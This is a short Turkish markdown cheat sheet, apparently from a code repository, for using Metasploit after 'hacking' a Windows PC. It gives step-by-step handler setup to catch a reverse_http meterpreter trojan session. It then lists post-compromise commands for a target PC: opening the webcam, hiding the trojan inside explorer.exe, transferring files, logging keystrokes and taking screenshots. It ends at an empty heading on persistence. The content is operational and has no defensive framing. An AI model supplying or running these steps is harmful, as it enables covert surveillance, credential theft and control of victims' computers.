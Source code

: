 # Hackledikten Sonra

#### 1. ```msfconsole```
#### 2. ```use exploit/multi/handler```
#### 3. ```set PAYLOAD windows/meterpreter/reverse_http``` (trojan hhtp uzantıı olduğu için http, tcp uzantılı olsaydı ```reverse_tcp``` olucaktı
#### 4. ```lhost 192.168.123.456``` (Kali IP'miz)
#### 5. ```lport 8080```
#### 6. ```exploit -j -z```
#### 7. ```sessions -l```
#### 8. ```session -1```

# Hedef PC'ye Sızdıktan Sonra Kullanılabilecek Komutlar

* ```background```: Session'dan Çıkar
* ```sysinfo```: Bilgisayarın Temel Bilgilerini Gösterir
* ```webcam_stream```: Hedef PC'nin Kamerasını Açar
* ```ps```: Hedef PC'de Çalışan Programları ve Program ID'lerini Gösterir
* ```migrate 2824```: Trojan'i 2824 (explorer.exe) içine saklar (2824 değişebilir, neyin içine saklamak istiyorsan onun ID'sini yazarız)
* ```upload dosyaadı```: Hedef PC'nin İçine Dosya Yüklememizi Sağlar
* ```download dosyaadı```: Hedef PC'nin İçindeki Dosyayı Kali'ye İndirir
* ```keyscan_start```: Hedef PC'de Basılan Tuşları Kaydetmeye Başlar
* ```keyscan_dump```: Hedef PC'de Basılan Tuşları Gösterir
* ```screenshot```: Hedef PC'nin Ekran Görüntüsünü Alır

# Hedef PC'yi Hackledikten Sonra Bağlantıyı Sürdürebilir Hale Getirmek
